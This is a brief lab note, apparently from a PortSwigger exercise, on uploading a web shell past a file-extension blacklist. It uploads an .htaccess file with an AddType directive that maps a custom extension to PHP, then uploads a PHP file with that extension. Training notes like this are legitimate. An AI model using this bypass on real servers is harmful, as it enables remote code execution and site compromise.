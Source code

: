 # Web shell upload via extension blacklist bypass

Source: Portswigger
Tools: Burpsuite
Technique: FIle upload
Fields: Web

- upload .htaccess file to set configuration allow web server to execute file with arbitrary extension

```java
AddType application/x-httpd-php .hieu (extension)
```

- Then upload file php with .hieu extension